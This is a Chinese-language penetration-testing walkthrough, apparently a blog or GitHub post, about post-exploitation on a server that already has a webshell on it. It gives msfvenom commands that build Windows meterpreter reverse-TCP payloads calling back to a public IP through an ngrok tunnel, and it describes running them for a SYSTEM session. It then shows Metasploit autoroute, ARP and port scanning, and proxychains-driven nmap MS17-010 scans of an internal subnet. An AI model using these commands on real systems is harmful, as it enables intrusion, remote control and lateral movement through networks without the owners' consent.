**场景:由于上传大马到服务器之后由于连接不稳定，导致经常断开连接，故而采用msf反弹shell(msf反弹的shell特别稳定)，并使用msf进行简单的内网msf17-010漏洞扫描**

**1、服务器处于内网**
**2、反弹shell的kali 也处于内网**
**3、需要公网服务器**
**注意:	局域网和局域网之间默认是无法通信的，如果需要局域网中的kali能够访问另外一个局域网的服务器，需要做静态nat或采用其他方式将内网ip地址映射到公网(合法有效)的ip**

**这儿采用的是ngrok内网穿透**

**ngrok的使用参见**[ngrok](http://www.ngrok.cc/)

#### 1、kali运行ngrok客户端和公网服务器建立连接
```java
使用kali 建立会话
root@kali:~# ./sunny clientid 客户端id
    ./sunny clientid fddaab6641599064
```


#### 2、生成msf反弹程序
```java
公网服务器的ip地址就是ngrok程序sunny客服端连接的地址
可以通过ping 该域名得到对应的ip地址
使用msfvenom生成payload  设置的ip地址为ngrok ip 端口为对应的端口 
msfvenom -p windows/meterpreter/reverse_tcp lhost=64.69.43.237 lport=10875 -f exe > pio.exe
 msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=64.69.43.237 lport=10875 -f exe > lehend.exe
```

#### 3、kali侦听本地对应的端口



#### 4、上传生成的msf反弹程序到服务器，操作大马运行该程序(注意路径问题)，建立会话


#### 5、由于权限已经是system权限，直接检测域环境和内网
```java
whoami /all 发现当前服务器没有域环境
arp -a 		发现同网段有大量服务器
```


#### 5、添加路由，扫描网段

**注意每次退出meterpreter之前先挂起**

**为了使msf中模块更好的扫描1.0网络给shell添加路由**

```java
run autoroute -s 172.16.1.0/24
run post/windows/gather/arp_scanner RHOSTS=172.16.1.0/24
```

#### 6、当然也可以挂起会话，使用msf自带的扫描模块进行扫描，作用还是比较大的
```java
msf5 exploit(multi/handler) > search portscan
msf5 exploit(multi/handler) > use 5
msf5 auxiliary(scanner/portscan/tcp) > set rhosts 172.16.1.0/24
rhosts => 172.16.1.0/24
msf5 auxiliary(scanner/portscan/tcp) > set threads 30
threads => 30
msf5 auxiliary(scanner/portscan/tcp) > run
```


#### 7、如何调用外部工具进行端口扫描呢？（比如nmap）
**通过meterpreter建立的会话设置代理**
**1、修改 vi /etc/proxychains.conf 配置文件设置socks4代理的端口**



**2、调用socks代理**


**设置监听的地址和端口，和上面proxychains.conf配置文件中的一致**


**运行，可以看到socks4的代理已经成功开启**


#### 8、使用proxychains驱动namp进行扫描
```java
proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms*.nse 172.16.1.0/24
-Pn的目的是防止目标服务器禁ping
```


